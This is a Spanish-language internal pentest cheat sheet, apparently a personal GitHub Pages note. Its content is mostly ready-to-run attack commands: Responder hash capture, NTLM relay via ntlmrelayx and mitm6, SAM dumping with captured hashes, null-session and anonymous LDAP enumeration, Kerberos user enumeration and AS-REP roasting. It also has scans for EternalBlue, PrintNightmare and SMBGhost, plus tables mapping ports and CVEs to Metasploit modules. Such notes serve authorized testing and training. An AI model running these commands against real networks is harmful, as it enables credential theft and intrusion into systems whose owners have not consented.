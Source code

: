 ```yaml
---
layout: default
title: Pentest Interno
---
```


# **Responder**

Modo capturar hashes
```bash
sudo responder -I eth0 -wdF
```

```
ls -la /usr/share/responder/logs
```

Modo relay

```bash
nxc smb ip/24 --gen-relay-list relay.txt
```

```bash
sudo nano /etc/responder/Responder.conf
```

`Ponemos en OFF SMB y HTTP`

```bash
sudo responder -I eth0 -FPv
```

```
sudo impacket-ntlmrelayx.py  -tf relay.txt -smb2support 
```

```bash
nxc smb IP/24 -U USER -H HASH  --local-auth --sam
```

Modo relay IPV6
```bash
sudo python3 mitm6.py -d rmanj.com
```

```bash
impacket-ntlmrelayx -6 -wh 10.17.0.213 -tf formated_relay.txt -socks -debug -smb2support
```

___

Ver Host activos
```bash
sudo arp-scan -l | awk '/^[0-9]+\.[0-9]+\.[0-9]+\.[0-9]+/ {print $1}' >> ips.txt
sudo nmap -sn  10.17.0.0/24 -oG - | awk '/Up$/{print $2}' >> ips.txt
cat ips.txt | sort | uniq > ips2.txt
```

smb.txt
```bash
nxc smb -t 10.17.0.0/24 
```

Nmap específico por puertos
```bash
nmap -p 445 10.17.0.0/24 -sS --open -oG - | awk '/445\/open/ {print $2}' > 445.txt
nmap -p 22 10.17.0.0/24 -sS --open -oG - | awk '/22\/open/ {print $2}' > 22.txt
nmap -p 21 10.17.0.0/24 -sS --open -oG - | awk '/21\/open/ {print $2}' > 21.txt
nmap -p 3306 10.17.0.0/24 -sS --open -oG - | awk '/3306\/open/ {print $2}' > 3306.txt
nmap -p 3389 10.17.0.0/24 -sS --open -oG - | awk '/3389\/open/ {print $2}' > 3389.txt
nmap -p 1433 10.17.0.0/24 -sS --open -oG - | awk '/1433\/open/ {print $2}' > 1433.txt
nmap -p 139 10.17.0.0/24 -sS --open -oG - | awk '/139\/open/ {print $2}' > 139.txt
nmap -p 389 10.17.0.0/24 -sS --open -oG - | awk '/389\/open/ {print $2}' > 389.txt
nmap -p 636 10.17.0.0/24 -sS --open -oG - | awk '/636\/open/ {print $2}' > 636.txt
nmap -p 80 10.17.0.0/24 -sS --open -oG - | awk '/80\/open/ {print $2}' > 80.txt
nmap -p 8080 10.17.0.0/24 -sS --open -oG - | awk '/8080\/open/ {print $2}' > 8080.txt
nmap -p 443 10.17.0.0/24 -sS --open -oG - | awk '/443\/open/ {print $2}' > 443.txt
nmap -p 23 10.17.0.0/24 -sS --open -oG - | awk '/23\/open/ {print $2}' > 23.txt
```

SMB null session
```bash
nxc smb 445.txt -u '' -p '' | grep '\[+\]'
nxc smb 445.txt -u '' -p '' --shares
smbmap -u 'null' --host-file smb_null.txt
smbmap -u '' --host-file smb_null.txt
smbclient -L 10.17.0.229 -N
smbclient -L 10.17.0.229 -N -m SMB3
smbclient -L 10.17.0.229 -N -m SMB2
```

RPC null session
```bash
while read ip; do
	echo "Probando null session RPC en $ip "
	rpcclient -U "" $ip -c "enumdomusers" && echo "Null session permitida en $ip" || echo "No null session en $ip"
done < 139.txt
```

```bash
while read ip; do\n  echo "Probando null session RPC en $ip"\n  impacket-lookupsid anonymous@rmanj.com -target-ip $ip -no-pass && echo "Null session permitida en $ip" || echo "No null session en $ip"\ndone < 139.txt
```
 
RDP, comprobar NLA
```bash
nmap -p 3389 -iL 3389.txt --script=rdp-enum-encryption
nxc rdp --nla-screenshot 3389.txt | grep "nla:False"
ls -lh /home/user/.nxc/screenshots/
rdesktop -u "" -p "" IP
```

LDAP probar consultas anónimas
```BASH
ldapsearch -x -H ldap://DOMAIN -s base  -b "" "(objectClass=*)"
ldapsearch -x -H ldap://DOMAIN -s base  -b "DC=,DC=" "(objectClass=*)"
ldapsearch -x -H ldap://DOMAIN -s base  -b "DC=,DC=" '(objectClass=*)'
```

Escanear páginas web rápido para saber si están activas

```bash
nmap -p 80 10.17.0.0/24 -sS --open -oG - | awk '/80\/open/ {print $2}' > 80.txt
nmap -p 8080 10.17.0.0/24 -sS --open -oG - | awk '/8080\/open/ {print $2}' > 8080.txt
nmap -p 443 10.17.0.0/24 -sS --open -oG - | awk '/443\/open/ {print $2}' > 443.txt
```

```bash
awk '{print "http://"$0":80"}' 80.txt >> urls.txt
```

```bash
awk '{print "http://"$0":8080"}' 8080.txt >> urls.txt
```

```bash
awk '{print "https://"$0":443"}' 443.txt >> urls.txt
```

```bash
sudo apt install unzip -y
wget https://github.com/projectdiscovery/httpx/releases/latest/download/httpx-linux-amd64.zip
unzip httpx-linux-amd64.zip
chmod +x httpx-linux-amd64\nsudo mv httpx-linux-amd64 /usr/local/bin/httpx

~/go/bin/httpx -l urls.txt -sc -title -t 50 -timeout 5
```

Listado de usuarios válidos
```bash
kerbrute userenum > valid_users.txt

impacket-GetNPUsers DOMAIN/ -no-pass -usersfile valid_users.txt -dc-ip IP
```
Wordlist para hacer password spraying
https://github.com/attackdebris/kerberos_enum_userlists.git

___

Listar software vulnerable, primero hacer un nmap targeted, después:

mssql
```bash
cat mssql_targeted | grep -E 'Nmap scan report|name: |number: ' | grep -v 'Instance' > vulnerable_mssql.txt
```

22.txt
```bash
awk '/Nmap scan report for/ {ip=$NF} /tcp/ && /open/ && /ssh/ {print ip, substr($0, index($0, $4))}' 22_targeted 
```

___

# Puertos típicos

| Puerto        | Servicio común        | Riesgos frecuentes / Exploits conocidos                             |
| ------------- | --------------------- | ------------------------------------------------------------------- |
| **21**        | FTP                   | Contraseñas en texto plano, anon login, RCE (vsftpd backdoor, etc.) |
| **22**        | SSH                   | Bruteforce, versiones viejas de OpenSSH (7.x, 8.x) con CVEs         |
| **23**        | Telnet                | Texto plano, acceso sin cifrar, default creds                       |
| **25**        | SMTP                  | Relay abierto, RCE por buffer overflow                              |
| **53**        | DNS                   | Cache poisoning, DoS, zone transfer                                 |
| **80**        | HTTP                  | Web vulns (LFI, RCE, XSS, SQLi), paneles sin auth                   |
| **110**       | POP3                  | Texto plano, credenciales expuestas                                 |
| **135**       | RPC                   | Windows RCE (MS03-026, DCOM, etc.)                                  |
| **139**       | NetBIOS               | Enumeración, ataques LLMNR/NetBIOS                                  |
| **143**       | IMAP                  | Texto plano, default creds                                          |
| **389**       | LDAP                  | Enumeración, credenciales en texto plano                            |
| **445**       | SMB                   | MS17-010 (EternalBlue), RCE, cred capture (Responder)               |
| **512-514**   | R* services           | RSH/Rlogin inseguros                                                |
| **3306**      | MySQL                 | Default creds, inyecciones                                          |
| **3389**      | RDP                   | Bruteforce, BlueKeep (CVE-2019-0708), cred reuse                    |
| **5432**      | PostgreSQL            | Default users, inyecciones SQL                                      |
| **5900**      | VNC                   | Sin autenticación, acceso completo                                  |
| **5985/5986** | WinRM                 | RCE si hay credenciales disponibles                                 |
| **8000-9000** | Web apps/dev services | Jenkins, Tomcat, Jupyter, etc. → muchos sin auth por defecto        |
| **9200**      | Elasticsearch         | RCE, info leak si sin auth                                          |
| **11211**     | Memcached             | Amplification DDoS                                                  |

# Vuns típicas

| Nombre             | CVE            | Servicio              | Descripción                                          | Explotable en Metasploit                             |
| ------------------ | -------------- | --------------------- | ---------------------------------------------------- | ---------------------------------------------------- |
| **EternalBlue**    | CVE-2017-0144  | SMBv1 (445)           | RCE por buffer overflow en SMBv1 (Win7, Win2008, XP) | ✅ Sí (`exploit/windows/smb/ms17_010_eternalblue`)    |
| **SMBGhost**       | CVE-2020-0796  | SMBv3 (445)           | RCE en SMBv3.1.1 (Windows 10/2019)                   | ✅ (scripts y PoCs)                                   |
| **BlueKeep**       | CVE-2019-0708  | RDP (3389)            | RCE en Remote Desktop (Win7/Server 2008)             | ✅ (`exploit/windows/rdp/cve_2019_0708_bluekeep_rce`) |
| **PrintNightmare** | CVE-2021-34527 | RPC/Spooler (135/445) | RCE por falla en spooler                             | ✅ (`exploit/windows/local/printnightmare`)           |
Escáneres :

```bash
nxc smb 10.17.0.0/24 -M eternalblue
```

```bash
nxc smb 10.17.0.0/24 -M printnightmare
```

```bash
nxc smb 10.17.0.0/24 -M smbghost
```
